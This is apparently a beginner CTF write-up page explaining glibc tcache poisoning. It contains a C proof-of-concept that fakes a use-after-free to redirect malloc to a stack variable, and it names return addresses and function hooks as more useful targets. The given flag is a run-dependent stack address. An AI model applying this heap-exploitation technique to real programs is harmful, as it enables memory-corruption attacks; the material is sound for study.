 <title>tcache attack explanation- leaningctf</title>

<!DOCTYPE html>
<html>

<body>
    <h1>tcache attack explanation- leaningctf</h1>

    <h2>Challenge Description</h2>
    <p> this is a easy challenge for leaning sample binary exploitation with tcache attack wrap final maloc in flag{}
 
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
The tcache bin consists of a linked list, where one chunk points to the next chunk. This attack consists of using a bug to overwrite a pointer in the linked list to an address we want to allocate, then allocating it when it's that chunks turn to be allocated.
        for see how tcache attack working see this code and run it and see final value for get flag
<pre>
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    puts("So this is a quick demo of a tcache attack.");
    puts("The tcache is a bin that stores recently freed chunks (max 7 per idx by default).");
    puts("The tcache bin consists of a linked list, where one chunk points to the next chunk.");
    puts("This attack consists of using a bug to overwrite a pointer in the linked list to an address we want to allocate, then allocating it when it's that chunks turn to be allocated.");
    puts("Also the tcache was introduced in glibc version 2.26, so you won't be able to do this attack in libc versions before that.");
    puts("\n");

    printf("So let's start off by allocated two chunks, and let's initialize a stack integer.\n");

    unsigned long int *ptr0, *ptr1;
    int target;

    ptr0 = malloc(0x10);
    ptr1 = malloc(0x10);
    target = 0xdead;

    printf("ptr0: %p\n", ptr0);
    printf("ptr1: %p\n", ptr1);
    printf("int:  %p\n\n", &target);

    printf("Our objective here is to get malloc to return a pointer to the stack variable. Here that doesn't serve as much purpose (this is more of a proof of concept). However in a lot of different situations we can write to a chunk that is allocated.\n");
    printf("In addition to that, instead of allocating a chunk to a stack integer, we can allocate a chunk to something more interesting (like the saved return address or the hook to a function).\n");
    printf("So we will continue by freeing the two heap chunks, which will store them in the tcache.\n\n");

    free(ptr0);
    free(ptr1);

    printf("At this point, the two chunks we allocated using malloc are in the tcache. We can also see that there is a linked list which is used to keep track of which chunk is next in the tcache.\n\n");

    printf("Next pointer for ptr1: %p\n\n", (unsigned long int *)*ptr1);

    printf("As you can see, it points to the first chunk we allocated. This is chunks in the tcache are allocated in the reverse order in which they are inserted into it (think LIFO).\n");
    printf("So if we were to overwrite this pointer with a Use After Free bug (I'm pretending I have a UAF to ptr1 here), we can control the chunk which will be allocated from the tcache after ptr1.\n");
    printf("Let's write the address of the target stack integer over the next pointer.\n\n");

    *ptr1 = (unsigned long int)&target;
    printf("Next pointer for ptr1: %p\n\n", (unsigned long int *)*ptr1);

    printf("Now we will allocate a chunk. This should return the ptr1 chunk, and place the address of our target stack variable at the top of the tcache.\n\n");

    printf("Malloc Allocated: %p\n\n", malloc(0x10));

    printf("Now that the address of our stack integer is at the top of the tcache, the next chunk we allocate will be the target integer.\n\n");

    printf("Malloc Allocated: %p\n\n", malloc(0x10));

    printf("Just like that, we got malloc to allocate a chunk to the target stack variable. In practice we would try and allocate a chunk to something much more interesting (but this is more of a proof of concept).\n");
}
</pre>
       
    
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">flag{0x7ffe00b8da64}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for tcache attack</p>
</body>
</html>

